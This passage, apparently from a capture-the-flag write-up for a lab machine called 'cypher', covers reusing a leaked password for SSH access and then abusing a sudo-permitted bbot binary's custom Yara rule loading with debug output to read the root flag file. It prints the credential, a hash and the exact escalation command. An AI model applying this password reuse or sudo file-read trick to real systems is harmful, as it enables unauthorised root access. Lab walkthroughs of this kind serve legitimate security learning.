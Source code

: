 Which reveals something like:

```
>....+---------------------------------------------------------+
| username   | has                                        |
+---------------------------------------------------------+
| "graphasm" | "9f54ca4c130be6d529a56dee59dc2b2090e43acf" |
+---------------------------------------------------------+
```

The hash used wasn't crackable. We try reusing the found cU4btyib.20xtCMCXkBmerhK password for the graphasm user on the system, which gives us ssh access:

| User     | Password                 |
| -------- | ------------------------ |
| graphasm | cU4btyib.20xtCMCXkBmerhK |

```bash
graphasm@cypher:~$ whoami
graphasm
```

## Root

Checking our sudo permissions we see an interesting file:

```bash
graphasm@cypher:~$ sudo -l
Matching Defaults entries for graphasm on cypher:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User graphasm may run the following commands on cypher:
    (ALL) NOPASSWD: /usr/local/bin/bbot
```

So graphasm can run `/usr/local/bin/bbot` with no password as root.

Since we can get bbot to load custom Yara rules, we load in files from `/root/root.txt` and obtain the root user flag and read root level files. The tool logs debug info about loading the custom Yara rule:

```bash
sudo /usr/local/bin/bbot -cy /root/root.txt -d --dry-run
...
[DBUG] internal.excavate: Including Submodule ErrorExtractor
[DBUG] internal.excavate: Including Submodule FunctionalityExtractor
[DBUG] internal.excavate: Including Submodule HostnameExtractor
[DBUG] internal.excavate: Including Submodule JWTExtractor
[DBUG] internal.excavate: Including Submodule NonHttpSchemeExtractor
[DBUG] internal.excavate: Including Submodule ParameterExtractor
[DBUG] internal.excavate: Parameter Extraction disabled because no modules consume WEB_PARAMETER events
[DBUG] internal.excavate: Including Submodule SerializationExtractor
[DBUG] internal.excavate: Including Submodule URLExtractor
[DBUG] internal.excavate: Successfully loaded custom yara rules file [/root/root.txt]
[DBUG] internal.excavate: Final combined yara rule contents: 3237f1a1bcb27a41f331a78e06dfb8d1
...
```


[^1]: https://pentester.land/blog/cypher-injection-cheatsheet/